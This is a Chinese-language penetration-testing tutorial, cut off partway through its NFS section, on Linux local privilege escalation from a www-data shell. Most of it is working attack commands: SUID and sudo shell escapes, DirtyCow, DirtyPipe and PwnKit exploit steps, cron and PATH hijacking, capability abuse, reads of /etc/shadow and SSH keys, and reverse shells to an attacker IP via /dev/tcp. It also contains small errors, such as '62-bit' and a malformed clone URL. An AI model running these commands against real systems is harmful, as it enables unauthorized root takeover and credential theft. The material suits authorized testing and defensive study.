


## 案例一：Linux本地提权实战

本地提权（Privilege Escalation）是渗透测试的核心环节之一。攻击者通过Web漏洞、弱口令、钓鱼邮件等方式获取的初始立足点通常只是低权限用户（如 `www-data`、`nobody` 或某个普通账户），要完全控制目标系统，必须将权限提升至 `root`。Linux系统的权限模型决定了只有 `root`（UID 0）才能不受限制地访问所有文件、加载内核模块、绑定特权端口、修改系统配置。一次成功的本地提权意味着从"受限访问"跃迁到"完全控制"。

本案例以一个真实的渗透测试场景为蓝本，系统性地覆盖Linux本地提权的完整方法论——从信息收集到漏洞识别，从手工利用到自动化工具，从单一技术到组合攻击链。每个方法都包含原理分析、操作步骤、真实输出示例和防御建议。

---

### 1.1 Linux权限模型基础

在动手之前，理解Linux的权限模型是所有提权技术的理论根基。

#### 1.1.1 UID与权限层级

Linux通过UID（User Identifier）标识用户身份，权限判断的核心逻辑如下：

| UID范围 | 用户类型 | 权限说明 |
|---------|---------|---------|
| 0 | root | 不受任何权限检查约束，可执行所有操作 |
| 1-999 | 系统用户 | 用于运行服务（如 `www-data` UID 33、`nobody` UID 65534），通常无法登录 |
| 1000+ | 普通用户 | 受文件权限、capabilities、selinux等多重限制 |

当一个进程运行时，它持有三组身份：

- **RUID（Real UID）**：实际启动进程的用户
- **EUID（Effective UID）**：决定进程权限的有效用户
- **SUID（Saved UID）**：允许进程在EUID和RUID之间切换

提权的本质就是让进程的EUID变为0。

#### 1.1.2 提权的技术分类

```text
┌─────────────────────────────────────────────────────┐
│              Linux 本地提权技术分类                    │
├──────────────┬──────────────┬───────────────────────┤
│   配置缺陷    │   代码漏洞    │    设计特性滥用        │
├──────────────┼──────────────┼───────────────────────┤
│ SUID/SGID    │ 内核漏洞      │ Capabilities滥用      │
│ sudo配置      │ 竞态条件      │ NFS no_root_squash   │
│ 可写PATH/脚本 │ 堆栈溢出      │ LD_PRELOAD注入        │
│ 可写定时任务   │ 整数溢出      │ Docker/LXC组成员      │
│ 可写/etc/passwd│ 格式化字符串   │ Ptrace进程注入        │
│ NFS共享配置   │ Use-After-Free│ Wildcard注入          │
│ Cron脚本权限  │              │ LXD组提权             │
└──────────────┴──────────────┴───────────────────────┘
```

---

### 1.2 攻击场景设定

**场景描述**：你通过一个Spring Boot Actuator未授权访问漏洞获得了目标服务器的反弹Shell，当前身份为 `www-data`（Web服务运行用户）。目标是一台运行Ubuntu 20.04 LTS的服务器，内核版本 5.4.0-91-generic。

**初始权限确认**：

```bash
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

$ whoami
www-data

$ cat /etc/os-release | head -4
NAME="Ubuntu"
VERSION="20.04.3 LTS (Focal Fossa)"
ID=ubuntu
```

这是一个典型的低权限Shell起点——无法读取 `/etc/shadow`，无法修改系统文件，无法访问其他用户的目录。

---

### 1.3 信息收集：提权的情报基础

信息收集的质量直接决定提权的成败。90%的提权机会来自于对系统配置的细致观察。下面按照优先级系统性地采集信息。

#### 1.3.1 系统基本信息

```bash
# 内核版本——决定可利用的内核漏洞范围
uname -a
# Linux target 5.4.0-91-generic #104-Ubuntu SMP ... x86_64 GNU/Linux

# 发行版信息——不同发行版的默认配置差异很大
cat /etc/os-release
cat /etc/issue

# 系统架构——32位和62位的exploit完全不同
arch
# x86_64

# 系统启动时间和负载——长时间未重启可能内核漏洞未修复
uptime
```

#### 1.3.2 用户与认证信息

```bash
# 所有用户账户
cat /etc/passwd | grep -v nologin | grep -v false
# 关注可登录的shell用户（/bin/bash、/bin/sh）

# 当前用户详细信息
id
groups
whoami

# sudo权限——这是最常见也是最高效的提权路径
sudo -l
# 输出示例：
# User www-data may run the following commands on target:
#   (ALL : ALL) NOPASSWD: /usr/bin/vim

# 最近登录记录
last -20
lastlog

# 尝试读取shadow（大多数情况会被拒绝，但偶尔有惊喜）
cat /etc/shadow 2>/dev/null
ls -la /etc/shadow

# SSH密钥——如果能读取其他用户的私钥，直接横向移动
ls -la /home/*/.ssh/ 2>/dev/null
cat /home/*/.ssh/id_rsa 2>/dev/null
cat /home/*/.ssh/authorized_keys 2>/dev/null

# 查找包含密码的文件（常见的配置文件泄露）
grep -r "password" /etc/ 2>/dev/null | grep -v "shadow\|passwd\|group"
grep -ri "password\|passwd\|pass=" /var/www/ 2>/dev/null | head -20
find / -name "*.conf" -exec grep -l "password" {} \; 2>/dev/null | head -20
```

#### 1.3.3 SUID/SGID文件枚举

SUID（Set User ID）文件是Linux提权的经典攻击面。当一个可执行文件设置了SUID位，任何用户执行它时，进程将以文件所有者的权限运行（通常是root）。

```bash
# 查找所有SUID文件
find / -perm -4000 -type f 2>/dev/null
# 输出示例：
# /usr/bin/sudo
# /usr/bin/passwd
# /usr/bin/su
# /usr/bin/newgrp
# /usr/bin/chsh
# /usr/bin/chfn
# /usr/bin/gpasswd
# /usr/bin/umount
# /usr/bin/mount
# /usr/bin/pkexec          ← 值得关注！PwnKit漏洞(CVE-2021-4034)
# /usr/bin/fusermount
# /usr/bin/at
# /usr/lib/openssh/ssh-keysign
# /usr/lib/dbus-1.0/dbus-daemon-launch-helper
# /usr/lib/policykit-1/polkit-agent-helper-1

# 查找所有SGID文件
find / -perm -2000 -type f 2>/dev/null

# 同时查找SUID和SGID
find / -perm -6000 -type f 2>/dev/null

# 查找设置了Cap位的文件（同样危险）
getcap -r / 2>/dev/null
```

> **判断标准**：上述列表中，`sudo`、`su`、`passwd`、`mount` 等是系统正常SUID程序，可以忽略。重点关注：(1) 不常见的程序；(2) 被设置了SUID的自定义脚本；(3) 存在已知漏洞的程序（如 `pkexec`、旧版 `nmap`）。

#### 1.3.4 Capabilities枚举

Linux Capabilities是对root权限的细粒度拆分，允许普通用户拥有部分root能力。错误配置的Capabilities是隐蔽但高效的提权路径。

```bash
# 枚举所有设置了Capabilities的文件
getcap -r / 2>/dev/null
# 危险输出示例：
# /usr/bin/python3 = cap_setuid+ep    ← 可直接提权
# /usr/bin/perl = cap_setuid+ep       ← 可直接提权
# /usr/bin/vim = cap_setuid+ep        ← 可直接提权
# /usr/bin/tar = cap_dac_read_search+ep  ← 可读任意文件
# /usr/bin/ping = cap_net_raw+ep      ← 正常配置，可忽略

# 以下Capabilities如果出现在可利用的程序上，直接提权：
# cap_setuid   — 允许设置UID为任意值
# cap_setgid   — 允许设置GID为任意值
# cap_dac_override — 绕过文件读写权限检查
# cap_sys_admin — 等价于root的大量特权
# cap_sys_ptrace — 可注入其他用户的进程
```

如果发现 `/usr/bin/python3 = cap_setuid+ep`，一行命令即可提权：

```bash
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
# 此时 id 返回 uid=0(root)
```

#### 1.3.5 可写文件与目录

```bash
# 可写文件（排除 /proc、/sys 等虚拟文件系统）
find / -writable -type f 2>/dev/null | grep -E "^/(etc|usr|opt|var|home)" | head -30

# 可写的系统脚本——如果定时任务引用的脚本可写，直接注入命令
find /etc -writable -type f 2>/dev/null
ls -la /etc/cron* /var/spool/cron/crontabs/

# 可写目录（可能用于放置恶意文件进行PATH劫持）
find / -writable -type d 2>/dev/null | grep -v -E "^/(proc|sys|dev|run|tmp|snap)" | head -20

# 可写的Shell脚本文件（最有价值的发现）
find / -name "*.sh" -writable 2>/dev/null | head -20
```

#### 1.3.6 定时任务（Cron）分析

```bash
# 系统级定时任务
cat /etc/crontab
ls -la /etc/cron.d/ /etc/cron.daily/ /etc/cron.hourly/ /etc/cron.weekly/ /etc/cron.monthly/

# 当前用户的定时任务
crontab -l

# 所有用户的定时任务（需要root才能看，但可以尝试）
ls -la /var/spool/cron/crontabs/

# 重点关注：以root身份执行且当前用户可写（或所在目录可写）的脚本
# /etc/crontab 示例：
# */5 * * * * root /opt/scripts/backup.sh
# 如果 backup.sh 或 /opt/scripts/ 目录可写 → 提权机会

# 检查systemd定时器（现代系统也用这个）
systemctl list-timers --all 2>/dev/null
```

#### 1.3.7 网络与进程信息

```bash
# 监听端口——发现仅本地监听的服务可能有漏洞
ss -tunlp
# 重点关注 127.0.0.1 上的服务

# 网络连接
ss -tunp

# 运行中的进程——寻找以root身份运行的脆弱服务
ps aux | grep -v "\[" | sort -nrk3 | head -20

# 进程环境变量（可能泄露密码、API Key）
# 注意：现代系统通常限制 /proc/*/environ 的读取权限
for pid in $(pgrep -u root); do
  echo "=== PID $pid ==="
  cat /proc/$pid/environ 2>/dev/null | tr '\0' '\n' | grep -iE "pass|key|token|secret"
done
```

#### 1.3.8 NFS共享配置

```bash
# 查看NFS导出配置
cat /etc/exports 2>/dev/null
# 危险配置：/shared *(rw,sync,no_root_squash)
# no_root_squash 意味着客户端的root用户在NFS挂载上也拥有root权限

# 查看已挂载的NFS
showmount -e localhost 2>/dev/null
mount | grep nfs
```

#### 1.3.9 自动化信息收集工具

手动收集容易遗漏，实战中通常配合自动化工具：

```bash
# LinPEAS（最全面，推荐首选）
# 从攻击机传输到目标
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# LinEnum（经典工具）
wget https://github.com/rebootuser/LinEnum/raw/master/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh -t -s -k keyword

# linux-exploit-suggester（专门推荐内核漏洞）
wget https://github.com/mzet-/linux-exploit-suggester/raw/master/linux-exploit-suggester.sh
chmod +x linux-exploit-suggester.sh
./linux-exploit-suggester.sh

# linuxprivchecker（Python版本，适合没有bash的环境）
wget https://github.com/sleventyeleven/linuxprivchecker/raw/master/linuxprivchecker.py
python3 linuxprivchecker.py
```

> **实战技巧**：不要只依赖自动化工具。它们可能遗漏以下内容：(1) 自定义应用程序中的硬编码密码；(2) 非标准路径的配置文件；(3) 当前用户特定的sudo权限组合。手动检查 + 自动化工具才是最佳实践。

---

### 1.4 方法一：SUID/SGID程序利用

#### 1.4.1 原理

SUID位（`chmod u+s`）允许程序以文件所有者身份运行。如果一个SUID root的程序可以执行任意命令或启动Shell，那么普通用户执行它就等同于获得了root权限。

判断逻辑：

```text
SUID文件 → 属主是root？ → 程序可执行命令/Shell？ → 检查GTFOBins → 利用
```

#### 1.4.2 实操：GTFOBins工作流

[GTFOBins](https://gtfobins.github.io/) 维护了一份可被滥用于提权的Unix程序列表。每条记录标注了该程序在SUID、sudo、Shell、文件读写等场景下的利用方式。

```bash
# 第一步：列出所有SUID文件
find / -perm -4000 -type f 2>/dev/null

# 第二步：过滤掉已知的安全SUID程序
# 以下程序的SUID是系统默认配置，通常安全：
# /usr/bin/sudo, /usr/bin/su, /usr/bin/passwd, /usr/bin/newgrp
# /usr/bin/chsh, /usr/bin/chfn, /usr/bin/gpasswd
# /usr/bin/umount, /usr/bin/mount, /usr/bin/fusermount
# /usr/lib/openssh/ssh-keysign

# 第三步：对每个非标准SUID程序查询GTFOBins
# 例如发现了 /usr/bin/find 设置了SUID
# 在GTFOBins搜索 "find" → SUID栏给出：
```

#### 1.4.3 常见可利用SUID程序一览

```bash
# find——通过 -exec 参数执行Shell
./find . -exec /bin/bash -p \; -quit
# -p 参数保留SUID获得的有效UID
# 验证：id → uid=33(www-data) euid=0(root)

# vim/nvim——编辑器支持执行Shell命令
./vim -c ':!bash'
# 或在vim交互模式中输入 :!/bin/bash

# less/more——分页器支持 !command 语法
./less /etc/passwd
# 进入less后输入: !bash

# awk——支持system()函数调用
./awk 'BEGIN {system("/bin/bash")}'

# python/python3——设置UID为0后启动Shell
./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'

# perl——exec系统调用
./perl -e 'exec "/bin/bash";'

# ruby——exec系统调用
./ruby -e 'exec "/bin/bash"'

# env——直接执行指定程序
./env /bin/bash

# nmap（2.02-5.21旧版本）——交互模式
./nmap --interactive
nmap> !sh

# cp——覆盖敏感文件（间接提权）
# 用法：覆盖 /etc/passwd 添加一个UID=0的用户
echo 'root2:$(openssl password -1 -salt xyz password123):0:0::/root:/bin/bash' > /tmp/fake_passwd
./cp /tmp/fake_passwd /etc/passwd
su root2  # 密码：password123

# bash（如果被设置了SUID）
/bin/bash -p
# 直接获得root shell
```

#### 1.4.4 利用流程图



---

### 1.5 方法二：Sudo配置不当利用

#### 1.5.1 原理

`/etc/sudoers` 文件定义了哪些用户可以以何种权限运行哪些命令。配置失误——无论是允许运行过于强大的程序、允许以任意用户/组身份运行、还是免密执行——都会直接导致提权。

关键的sudoers语法：

```text
# 格式：用户 主机=(运行身份) 命令
user1 ALL=(ALL:ALL) ALL          # 完全sudo权限
user2 ALL=(root) NOPASSWD: /usr/bin/vim  # 免密以root运行vim
user3 ALL=(ALL) NOPASSWD: /usr/bin/apt-get  # 免密以任意用户运行apt
```

#### 1.5.2 实操：sudo -l 输出分析

```bash
sudo -l
# 输出示例1：
# User www-data may run the following commands on target:
#     (root) NOPASSWD: /usr/bin/vim
# → 提权：sudo vim -c ':!/bin/bash'

# 输出示例2：
# User www-data may run the following commands on target:
#     (root) NOPASSWD: /usr/bin/apt-get
# → 利用apt的DPkg::Pre-Install-Packages钩子提权
sudo apt-get changelog apt
# 实际上更可靠的方式：
TF=$(mktemp)
echo 'Dpkg::Pre-Invoke {"/bin/bash"};' > $TF
sudo apt-get -c $TF update

# 输出示例3：
# User www-data may run the following commands on target:
#     (ALL : ALL) NOPASSWD: /usr/bin/find
# → 注意 (ALL:ALL) 意味着可以以任意用户身份运行
# 但find本身就可以提权：
sudo find /tmp -name x -exec /bin/bash \;

# 输出示例4：
# User www-data may run the following commands on target:
#     (root) NOPASSWD: /usr/bin/env
# → 提权：
sudo env /bin/bash
```

#### 1.5.3 高频sudo提权场景汇总

| sudo配置 | 利用方式 | 命令 |
|----------|---------|------|
| vim/vi/nvim | `:!command` | `sudo vim -c ':!/bin/bash'` |
| less/more | `!command` | `sudo less /etc/passwd` 然后输入 `!bash` |
| find | `-exec` | `sudo find / -exec /bin/bash \;` |
| awk | `system()` | `sudo awk 'BEGIN{system("/bin/bash")}'` |
| python/python3 | `os.system()` | `sudo python3 -c 'import os;os.system("/bin/bash")'` |
| perl | `exec` | `sudo perl -e 'exec "/bin/bash"'` |
| ruby | `exec` | `sudo ruby -e 'exec "/bin/bash"'` |
| env | 直接执行 | `sudo env /bin/bash` |
| ftp/lftp | `!command` | `sudo ftp` 然后 `!bash` |
| man | `!command` | `sudo man man` 然后 `!bash` |
| apt/apt-get | Dpkg hooks | 见上文 |
| pip | `--install-option` | `sudo pip install --install-option="--install-scripts=/tmp" x`（需配合自定义setup.py） |
| zip | `-T`参数 | `sudo zip /tmp/x.zip /tmp/x -T --unzip-command="sh -c /bin/bash"` |
| tar | `--checkpoint` | `sudo tar cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash` |
| systemctl | 模板 | 利用systemd执行任意命令（见下文详细说明） |
| nmap | `--script` | `sudo nmap --script=/tmp/exploit.nse`（NSE脚本可执行Lua代码） |
| git | hooks | `sudo git -p help config` 然后 `!/bin/bash` |
| ftp | `!command` | `sudo ftp` 然后输入 `!sh` |
| gdb | `!command` | `sudo gdb -nx -ex '!sh' -ex quit` |

#### 1.5.4 systemctl提权（深度解析）

当sudo允许运行systemctl但不直接允许Shell时：

```bash
# 检查sudo权限
sudo -l
# (root) NOPASSWD: /usr/bin/systemctl

# 创建一个恶意service文件
cat > /tmp/evil.service << 'EOF'
[Unit]
Description=Evil Service

[Service]
Type=oneshot
ExecStart=/bin/bash -c "id > /tmp/privesc_proof"
RemainAfterExit=yes

[Install]
WantedBy=multi-user.target
EOF

# 由于systemctl需要service文件在系统路径下，但我们可以用link
sudo systemctl link /tmp/evil.service
sudo systemctl start evil.service

# 如果 link 被限制，替代方案：利用systemd的环境变量泄露
# 或使用 sudo systemctl edit --force evil.service
```

#### 1.5.5 sudo通配符漏洞

sudoers中的通配符是隐蔽的提权向量：

```bash
# sudoers配置：
# user ALL=(root) NOPASSWD: /usr/bin/tar czf /backup/*

# 看起来安全——只允许打包/backup/目录
# 但tar的 --checkpoint 参数可以执行命令：
sudo tar czf /backup/exploit.tar.gz --checkpoint=1 --checkpoint-action=exec=/bin/bash /etc/passwd

# sudoers配置：
# user ALL=(root) NOPASSWD: /usr/bin/rsync *

# rsync的 -e 参数指定远程shell：
sudo rsync -e 'bash -c "bash -i >& /dev/tcp/attacker/4444 0>&1"' localhost:/dev/null
```

---

### 1.6 方法三：内核漏洞利用

#### 1.6.1 原理

Linux内核中的漏洞允许从用户空间直接获得ring 0权限。内核漏洞的威力在于它不依赖任何配置——只要内核版本匹配，就一定可以利用。代价是利用不当可能导致系统崩溃（Kernel Panic）。

#### 1.6.2 版本匹配与漏洞查找

```bash
# 获取精确的内核版本
uname -r
# 5.4.0-91-generic

# 方法1：searchsploit（本地ExploitDB数据库）
searchsploit linux kernel 5.4
searchsploit linux kernel ubuntu 20.04 local

# 方法2：linux-exploit-suggester（自动匹配）
./linux-exploit-suggester.sh --uname "5.4.0-91-generic"

# 方法3：在线查询
# https://www.exploit-db.com/
# https://github.com/SecWiki/linux-kernel-exploits
```

#### 1.6.3 经典内核漏洞案例

**DirtyCow（CVE-2016-5195）——影响 Linux 2.6.22 至 4.8.3**

```bash
# 漏洞原理：copy-on-write机制的竞态条件，允许普通用户写入只读内存映射
# 通过写入 /proc/self/mem 修改只读的 /etc/passwd

# 下载exploit
wget https://github.com/dirtycow/dirtycow.github.io/raw/master/dirtyc0w.c
gcc -pthread dirtyc0w.c -o dirtyc0w -lcrypt

# 执行：将 /etc/passwd 的第一行替换（root密码被修改为moo）
./dirtyc0w /etc/passwd "moo"
# 执行后 su root 输入密码 moo 即可
```

**DirtyPipe（CVE-2022-0847）——影响 Linux 5.8 至 5.16.11、5.15.25、5.10.102**

```bash
# 漏洞原理：pipe的PIPE_BUF_FLAG_CAN_MERGE标志未正确清除
# 允许向只读文件的任意偏移写入数据

# 下载exploit
git clone https://github.com/imfiver/CVE-2022-0847-DirtyPipe-Exploit.git
cd CVE-2022-0847-DirtyPipe-Exploit
gcc dirtypipe.c -o dirtypipe

# 方法1：覆盖SUID文件的入口点（不修改文件内容，直接SUID提权）
# 先备份原来的suid程序
cp /usr/bin/su /tmp/su_backup
./dirtypipe /usr/bin/su 1 $'\x00'
# 现在 su 变成了空程序，将自己的bash复制过去
cat /bin/bash > /usr/bin/su
chmod +s /usr/bin/su
/usr/bin/su -p  # 获得root shell

# 方法2：直接修改 /etc/passwd 中root密码哈希
./dirtypipe /etc/passwd 1 "$(echo 'root:$1$xyz$hash_here:0:0:root:/root:/bin/bash')"
```

**PwnKit（CVE-2021-4034）——影响所有pkexec版本**

```bash
# 漏洞原理：pkexec在处理参数数量为0时的内存越界访问
# pkexec是PolicyKit的一部分，在几乎所有Linux发行版上默认安装且设置了SUID

# 这个漏洞影响范围极广：
# - Ubuntu 14.04 ~ 22.04
# - CentOS 7 ~ 8
# - Debian 8 ~ 11
# - RHEL 6 ~ 8

# 自行编译exploit
git clone https://berdav/CVE-2021-4034.git
cd CVE-2021-4034
make
./cve-2021-4034
# 直接获得root shell，无需任何额外配置
```

#### 1.6.4 内核漏洞利用的注意事项

```text
⚠ 高风险操作警告：
┌────────────────────────────────────────────────────────────┐
│ 1. 在生产环境利用内核漏洞可能导致系统崩溃（Kernel Panic）     │
│ 2. 渗透测试前必须确认目标是否允许内核漏洞利用                 │
│ 3. 建议在虚拟机中先测试exploit的稳定性                       │
│ 4. 优先尝试配置类提权（sudo/SUID），内核漏洞作为最后手段       │
│ 5. 记录exploit的SHA256和来源，确保代码可信                    │
│ 6. 某些exploit可能修改系统文件（如DirtyCow改/etc/passwd）      │
│    提权后务必还原或告知客户                                   │
└────────────────────────────────────────────────────────────┘
```

---

### 1.7 方法四：定时任务劫持

#### 1.7.1 原理

cron守护进程以root身份执行定时任务。如果任务调用的脚本或脚本所在的目录可被当前用户写入，攻击者可以注入任意命令，这些命令将以root权限执行。

攻击面有三层：

1. **脚本本身可写**：直接在脚本中追加反弹Shell命令
2. **脚本所在目录可写**：替换整个脚本文件（如果脚本使用相对路径引用同目录下的其他文件）
3. **脚本中的通配符/变量展开**：利用shell特性注入参数（如tar的`--checkpoint`）

#### 1.7.2 实操：完整定时任务劫持流程

```bash
# 步骤1：全面枚举定时任务
cat /etc/crontab
# 输出：
# */5 * * * * root /opt/scripts/backup.sh
# 0 */2 * * * root /opt/scripts/cleanup.sh

ls -la /etc/cron.d/
ls -la /etc/cron.daily/ /etc/cron.hourly/
ls -la /var/spool/cron/crontabs/

# 步骤2：检查脚本权限
ls -la /opt/scripts/backup.sh
# -rwxrwxrwx 1 root root 234 ... ← 可写！直接提权

# 检查脚本所在目录权限
ls -la /opt/scripts/
# drwxrwxrwx 2 root root ... ← 目录也可写

# 步骤3：注入反弹Shell
# 方法A：追加命令到可写脚本
echo 'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1' >> /opt/scripts/backup.sh

# 方法B：检查脚本是否引用了通配符或变量
cat /opt/scripts/backup.sh
# 如果包含类似：
# cd /opt/backups && tar czf /backup/$(date +%F).tar.gz *
# 则可以利用tar通配符注入

# 步骤4：在攻击机监听
nc -lvnp 4444
# 等待cron触发（最多等待cron周期）
```

#### 1.7.3 Cron脚本通配符注入

当cron脚本使用了tar、rsync、chmod等命令且参数中包含通配符时：

```bash
# cron脚本内容：
# cd /tmp && tar czf /backup/backup.tar.gz *

# 在 /tmp 目录创建恶意文件
cd /tmp
echo "" > "--checkpoint=1"
echo "" > "--checkpoint-action=exec=bash -i >& /dev/tcp/10.10.14.5/4444 0>&1"

# 当tar执行时，* 会展开为文件列表，包含这两个参数
# tar 会将它们解析为命令行参数，触发命令执行
```

#### 1.7.4 Systemd定时器提权

```bash
# 查看systemd定时器
systemctl list-timers --all

# 查看timer对应的服务文件
cat /etc/systemd/system/backup.timer
cat /etc/systemd/system/backup.service

# 如果service文件可写，修改ExecStart
[Service]
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1'
```

---

### 1.8 方法五：PATH环境变量劫持

#### 1.8.1 原理

当SUID程序或cron脚本调用外部命令时使用相对路径（如 `service` 而非 `/usr/sbin/service`），攻击者可以通过修改 `$PATH` 让系统优先执行恶意程序。

判断条件：

1. 存在SUID程序或以root身份运行的脚本
2. 该程序/脚本调用了外部命令，且使用相对路径
3. 当前用户对 `$PATH` 中优先搜索的目录有写权限

#### 1.8.2 实操

```bash
# 步骤1：找到使用相对路径调用命令的SUID程序或脚本
# 使用strings查看二进制中的字符串
strings /usr/local/bin/custom_backup
# 输出中看到：service, cp, rm 等（没有/开头→相对路径）

# 或使用strace跟踪系统调用
strace /usr/local/bin/custom_backup 2>&1 | grep -E "execve|access"
# execve("/usr/sbin/service", ...) → 绝对路径，不可劫持
# execve("service", ...)           → 相对路径，可劫持

# 步骤2：创建恶意程序
cat > /tmp/service << 'EOF'
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
EOF
chmod +x /tmp/service

# 步骤3：修改PATH使 /tmp 优先
export PATH=/tmp:$PATH

# 步骤4：执行SUID程序
/usr/local/bin/custom_backup
# 它会调用 /tmp/service（而不是 /usr/sbin/service）

# 步骤5：使用保留SUID的bash
/tmp/rootbash -p
# id → uid=33(www-data) euid=0(root)
```

---

### 1.9 方法六：Capabilities滥用

#### 1.9.1 原理

Linux Capabilities将root的全权拆分为30多个独立的能力单元。管理员可以为普通程序赋予特定的Capability而不给完整的root权限。但如果赋予了 `cap_setuid`、`cap_sys_admin` 等关键能力，等同于提权。

#### 1.9.2 实操

```bash
# 枚举所有Capabilities
getcap -r / 2>/dev/null

# 危险Capabilities及利用方式：

# 1. cap_setuid（允许设置UID为0）
python3 -c 'import os; os.setuid(0); os.system("bash -p")'

# 2. cap_setgid（允许设置GID为0，配合其他漏洞）
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'

# 3. cap_dac_override（绕过所有文件读写权限检查）
# 可以直接读写 /etc/shadow
cat /etc/shadow  # 如果tar有此capability，可以打包shadow

# 4. cap_sys_admin（等价于root的mount能力）
# 可以挂载宿主机文件系统（在容器环境中特别危险）

# 5. cap_sys_ptrace（可注入其他进程）
# 注入到root进程并执行命令（见1.10节）

# 6. cap_net_raw + cap_net_admin
# 可用于ARP欺骗、嗅探密码等（提权相关性较低）

# 7. cap_dac_read_search（可绕过文件读权限）
tar czf /tmp/shadow.tar.gz /etc/shadow 2>/dev/null
tar xzf /tmp/shadow.tar.gz -C /tmp/
cat /tmp/etc/shadow
```

#### 1.9.3 Capabilities设置与利用对照表

| Capability | 权限描述 | 利用方式 | 危险等级 |
|-----------|---------|---------|---------|
| cap_setuid | 设置进程UID | `os.setuid(0)` | 🔴 极高 |
| cap_setgid | 设置进程GID | 辅助组权限获取 | 🟠 高 |
| cap_sys_admin | 挂载/命名空间 | 挂载敏感文件系统 | 🔴 极高 |
| cap_sys_ptrace | 跟踪/注入进程 | 注入root进程 | 🔴 极高 |
| cap_dac_override | 绕过文件权限 | 读写任意文件 | 🟠 高 |
| cap_dac_read_search | 绕过读权限 | 读取任意文件 | 🟡 中 |
| cap_fowner | 绕过属主检查 | 修改文件权限 | 🟡 中 |
| cap_net_raw | 原始套接字 | 密码嗅探 | 🟢 低 |

---

### 1.10 方法七：内核Ptrace注入

#### 1.10.1 原理

`ptrace` 系统调用允许一个进程监控和控制另一个进程的执行。如果当前用户拥有 `CAP_SYS_PTRACE` 或目标进程属于同一用户，可以注入Shellcode到目标进程中执行。

#### 1.10.2 实操

```bash
# 条件检查
getpcaps $$ 2>/dev/null
# 如果看到 cap_sys_ptrace = ok，则可利用

# 查找以root身份运行的进程
ps aux | grep "^root" | grep -v "\["

# 方法1：使用inject.py注入Shellcode到root进程
# （需要事先准备好inject工具）

# 方法2：利用 /proc/<pid>/mem 直接修改进程内存
# 这需要ptrace权限或cap_sys_ptrace

# 方法3：使用经典工具 Ptrace_DoIt（概念演示）
# 编译并执行：
git clone https://github.com/emptymonkey/ptrace_do.git
cd ptrace_do && make
# 将shellcode注入到目标root进程中
```

> **注意**：在现代系统上，`kernel.yama.ptrace_scope` 默认设为1，限制了ptrace只能作用于子进程。当 `ptrace_scope=0` 或拥有 `CAP_SYS_PTRACE` 时才可利用。

---

### 1.11 方法八：NFS no_root_squash 利用

#### 1.11.1 原理

NFS的 `no_root_squash` 选项允许NFS客户端上的root用户在挂载的NFS共享上保持root权限。如果目标服务器导出了 `no_root_squash` 的共享，攻击者可以在另一台机器上以root身份创建SUID文件，然后通过NFS共享回传利用。

#### 1.11.2 实操

```bash
# 在目标服务器上检查NFS配置
cat /etc/exports
# /shared 10.0.0.0/24(rw,sync,no_root_squash)

# 在攻击机上（需要有root权限的一台机器）
# 步骤1：挂载NFS共享
